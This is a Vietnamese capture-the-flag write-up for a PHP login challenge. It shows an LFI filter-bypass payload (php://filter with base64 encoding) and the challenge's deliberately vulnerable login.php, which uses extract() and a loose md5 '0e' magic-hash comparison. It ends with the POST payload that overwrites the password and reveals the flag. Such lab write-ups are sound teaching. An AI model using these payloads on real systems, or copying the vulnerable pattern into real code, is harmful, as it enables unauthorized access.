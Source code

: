 Vào thì được Form Login.<br>
Để ý ở dưới có dòng `Flag here ?`, ấn vào thử thì thấy đâu đó bóng dáng thấy Huấn.<br>
Ok, fine.<br>
Tiếp tục nhìn lên url trông có vẻ giống bị LFI, và đúng thật, nhưng bị filter r.<br>
Nghiên cứu 1 lúc thì có Payload: `pHp://FilTer/convert.base64-encode/resource=index`(lấy source file login cũng vậy).<br>
`login.php`
```php
<?php 
		
  	include ("flag.php"); //real flag in $flag

	if ($_SERVER['REQUEST_METHOD'] == "POST") {
		if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
			$password = random_int(10000000, 99999999);
			extract($_POST);
			$user_hash ='0e902564435691274142490923013038' ;
	
			if (md5($user) == $user_hash && $password === $pass){
				echo $flag;
				die();
			}else{
				die("Only admin have flag !!");
			}
		}
	}
?>
```
Để echi $flag thì cần bypass user và pass.<br>
User thì bypass dễ rỗi, chỉ cần sử dụng 1 chuỗi mà sau khi md5 thành 1 chuỗi mới có `0e` ở đầu là được.<br>
Pass thì có vẻ khó hơn, sau 1 hồi hỏi anh Google thì thấy có lỗi ở hàm exreact. Các bạn có thể tham khảo ở đây: https://davidnoren.com/post/php-extract-vulnerability/<br>

Rồi xây dựng payload thôi.<br>
Payload: user=DQWRASX&pass=1234&password=1234 (khi qua hàm extract thì giá trị password thành 1234)<br>
Vậy là được flag:
![image](https://user-images.githubusercontent.com/96786536/151706306-b73b4302-df7e-4894-99ea-56ad4d9743ed.png)
